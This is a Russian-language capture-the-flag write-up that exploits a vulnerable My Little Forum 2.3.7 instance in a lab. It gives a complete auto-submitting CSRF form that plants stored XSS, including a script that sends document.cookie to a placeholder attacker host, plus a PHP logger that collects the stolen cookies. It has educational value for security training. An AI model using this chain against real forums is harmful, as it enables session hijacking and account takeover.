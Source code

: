 ﻿# Форум для всех

Веб-сайт:
![Site](/img/4.png)

1. Заходим на форум. Видим, что уже многие пробовали XSS и т.д. Имеем достаточно много инпутов: куки 4 штуки, различные формы и GET запросы. Заставлять участников првоерять их все - очень жестоко.
2. Внизу страницы видим `powered by My Little Forum 2.3.7` Значит это какой-то сторонний движок.
3. Идем в гугл. Вбиваем My Little Forum 2.3.7. Видим, что это уязвимая версия. Переходим к примеру на этот сайт https://www.exploit-db.com/exploits/40676/
4. Читаем про уязвимости. Пробуем первую.
6. Для CSRF и XSS копируем форму с сайта и делаем так, чтобы при переходе на нее автоматически отправляла POST запрос на указанный адрес:
````html
<form action="http://10.0.38.133:61937/index.php?mode=admin&action=edit_page" method="post" accept-charset="utf-8">
<input type="hidden" name="mode" value="admin">
<input type="hidden" name="title" value="Stored XSS 
<script>alert(1)</script>">
<input type="hidden" name="content" value="Stored XSS 
<script>alert(2)</script>">
<input type="hidden" name="menu_linkname" value="<script>var img=new Image();img.src='https://your_site/index.php?'+ encodeURI(document.cookie);</script>">
<input type="hidden" name="edit_page_submit" value="1">
<input type="submit" name="edit_page_submit" value="OK - Save page">
</form>
<body onload="document.forms[0].submit()">
````
PHP код:
```php
<?php
$text = urldecode($_SERVER['QUERY_STRING']);

if (!empty($_SERVER['HTTP_CLIENT_IP'])) 
{
	$ip=$_SERVER['HTTP_CLIENT_IP'];
}
elseif (!empty($_SERVER['HTTP_X_FORWARDED_FOR']))
{
	$ip=$_SERVER['HTTP_X_FORWARDED_FOR'];
}
else
{
	$ip=$_SERVER['REMOTE_ADDR'];
}
$file=fopen("file.txt", "a");
fwrite ($file, $text.PHP_EOL);
fwrite ($file, $ip.PHP_EOL);
fwrite ($file, $_SERVER['HTTP_REFERER'].PHP_EOL);
fclose($file);
?>
```

7. В одно из полей пишем свой XSS, чтобы ловить куки. Нпаример, в поле menu_linkname.
8. Пишем на форуме пост со своей ссылкой.
9. Получаем куку с flag.
